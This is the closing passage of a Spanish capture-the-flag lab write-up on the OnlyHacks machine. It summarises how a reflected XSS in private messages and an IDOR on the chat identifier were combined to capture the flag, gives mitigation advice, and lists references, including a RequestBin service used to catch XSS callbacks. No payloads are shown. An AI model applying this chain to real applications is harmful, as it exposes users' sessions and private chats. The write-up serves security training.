- Evitar incluir identificadores sensibles en la URL, utilizando métodos POST o encabezados personalizados para transmitir información de recursos.

## 5. Conclusión
En este laboratorio hemos enfrentado **dos vulnerabilidades clásicas y de gran impacto** en aplicaciones web modernas: **Cross-Site Scripting (XSS)** reflejado e **Insecure Direct Object Reference (IDOR)**. Ambas representan fallos críticos señalados por la comunidad de seguridad como parte fundamental de los riesgos que todo **desarrollador y profesional** de seguridad debe **conocer y mitigar** en aplicaciones web efectivas.

La vulnerabilidad de **XSS** nos ha permitido comprender cómo la **ausencia de validación y saneamiento de entradas** puede llevar a que contenido controlado por un atacante se ejecute en el contexto del navegador de otro usuario, con consecuencias que van desde **alterar la interfaz** hasta **robar tokens de sesión**. En este laboratorio, detectamos este problema en el campo de mensajes privados de la aplicación OnlyHacks: la posibilidad de incluir HTML/JavaScript sin escapado seguro da lugar a un vector real de explotación, confirmado con pruebas de concepto que han demostrado la inyección de HTML y JavaScript en los chats.

Por otra parte, la vulnerabilidad **IDOR** representa un **fallo en el control de acceso** del lado del **servidor** que permite a un **usuario autenticado acceder a recursos que no le pertenecen** alterando un identificador en la URL o en parámetros de la solicitud. En OnlyHacks, esto se manifiesta dado que el identificador de chat (rid) puede modificarse manualmente, llevando a la visualización de chats que no correspnoden al usuario autenticado, lo cual confirma una mala gestión de autorizaciones y control de acceso.

La combinación de estas dos vulnerabilidades en una misma aplicación web —XSS y IDOR— no solo facilita la obtención de la flag objetivo del laboratorio, sino que también **evidencia cómo fallos de validación de entrada y control de acceso pueden comprometer la seguridad global de un sistema web**, exponiendo datos y funciones internas sin restricciones adecuadas.

Además, este ejercicio ha reforzado la **importancia de una enumeración exhaustiva y un análisis meticuloso** del comportamiento de los servicios expuestos, desde los banners iniciales hasta los parámetros que la aplicación acepta y procesa. Este enfoque sistemático ha sido clave para identificar y explotar las vulnerabilidades de manera eficiente y controlada, y es fundamental para lograr resultados exitosos en pruebas de penetración y auditorías de seguridad.

En definitiva, esperamos que hayáis disfrutado de este laboratorio tan sencillo pero tan ilustrativo, y que os haya servido para afianzar conceptos clave de seguridad web, así como para practicar técnicas de explotación de vulnerabilidades comunes pero críticas. **¡Nos vemos en el próximo laboratorio!**

## 6. Referencias
- **OWASP Top 10:2021** – Documento oficial que clasifica los riesgos más críticos en aplicaciones web.  
   https://owasp.org/Top10/2021/

- **Cross-Site Scripting (XSS) – OWASP Community** – Explicación general sobre XSS y cómo ocurre.  
   https://owasp.org/www-community/attacks/xss/

- **Cross-site scripting (XSS)** – Artículo Wikipedia sobre XSS, tipos y mitigación.  
   https://en.wikipedia.org/wiki/Cross-site_scripting

- **XSS (Cross Site Scripting) – HackTricks** – Guía de pentesting sobre XSS, vectores y técnicas.  
   https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html

- **IDOR (InDirect Object Reference) – HackTricks** – Guía de pentesting sobre IDOR, vectores y técnicas.  
   https://book.hacktricks.wiki/en/pentesting-web/idor.html

- **Cross-Site Scripting Prevention Cheat Sheet (OWASP)** – Recomendaciones de mitigación de XSS.  
   https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

- **Insecure Direct Object Reference Cheat Sheet – OWASP** – Prevención de IDOR y control de acceso seguro.  
   https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html

- **Testing for Insecure Direct Object References – OWASP WSTG** – Guia de pruebas específico para IDOR.  
   https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References

- **Ejemplo de alerta IDOR en noticias de seguridad (posible ciberataque)** – Artículo sobre un presunto ataque que involucra vulnerabilidad IDOR (investigación en curso).  
   https://digitalperito.es/blog/hacienda-ciberataque-idor-47-millones-ciudadanos-2026/

- **RequestBin (herramienta para recibir peticiones HTTP)** – Utilizada para capturar callbacks de pruebas de XSS.  
   https://requestbin.whapi.cloud/

- **Repositorio de código de Ajenti (panel identificado en la máquina OnlyHacks)** – Fuente de información sobre el software.  
    https://github.com/ajenti/ajenti

- **PortSwigger XSS Cheat Sheet** – Vectores de XSS y técnicas avanzadas (ayuda a entender diversidad de ataques).  
    https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

- **Cómo encontrar XSS – HackerOne** – Artículo sobre identificación y clasificación de XSS.  
    https://www.hackerone.com/blog/how-find-xss


